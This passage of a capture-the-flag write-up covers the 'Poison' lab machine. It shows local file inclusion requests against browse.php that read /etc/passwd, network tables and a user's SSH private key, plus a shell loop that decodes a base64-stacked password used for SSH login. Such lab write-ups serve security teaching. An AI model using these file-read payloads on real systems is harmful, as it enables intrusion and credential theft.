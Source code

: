 <br />
<img src="{{ site.img_path }}/poison_writeup/Poison_01.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_02.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_03.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_04.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Since I have access to the server configuration files, I'm going to access each of them to gather information that will give me a view of possible attack vectors. In one of them I find the name (**very suggestive** of a possible password) of a file that may also be available on the server, I also find that there are no restrictions on the use of functions (**disable_functiones**), a very important piece of information if I want to exploit a **RCE**. In the hidden file I find a text that was encoded (most probably in **Base 64**) **13 times**.

```html
http://10.10.10.84/browse.php?file=info.php
http://10.10.10.84/browse.php?file=phpinfo.php
# disable_functions no value    :)
http://10.10.10.84/browse.php?file=pwdbackup.txt
# This password is secure, it's encoded atleast 13 times.. what could go wrong really..
```

<br/>
<img src="{{ site.img_path }}/poison_writeup/Poison_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/poison_writeup/Poison_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Before continuing, I'm going to do a web server fingerprint search with the `nmap` script to find more hidden files, but I can't find anything at the moment. I perform a recursive decoding of the text I found and affirmatively it is a password, unfortunately I don't have usernames (except **root**, but <ins>I don't think it is so easy the engagement</ins>). One thing that caught my attention is that the access to the different resources of the server, is done using the **URL** itself, with the **GET** method and the use of a parameter (**file**), doing a quick test I can also access sensitive system files such as **passwd**, **hosts**, etc.. I already have possible **usernames**, and with one (**charix**) I can access the machine through **SSH**.

```bash
nmap --script http-enum -p80 10.10.10.84 -oN webScan

string="Vm0wd2......uUFQwSwo="; for i in $(seq 1 13); do echo $i && echo $string && string=$(echo $string | base64 -d | tr -d '\n' | tr -d ' ') && echo '\n\n'; done; echo $string > data
string="Vm0wd2......uUFQwSwo="; for i in $(seq 1 13); do echo string=$(echo $string | base64 -d | tr -d '\n' | tr -d ' '); done; echo $string > data

# view-source:http://10.10.10.84/browse.php?file=/etc/passwd
# view-source:http://10.10.10.84/browse.php?file=/proc/net/fib_trie
# view-source:http://10.10.10.84/browse.php?file=/proc/net/tcp
# view-source:http://10.10.10.84/browse.php?file=/home/charix/.ssh/id_rsa

# view-source:http://10.10.10.84/browse.php?file=/etc/hosts

```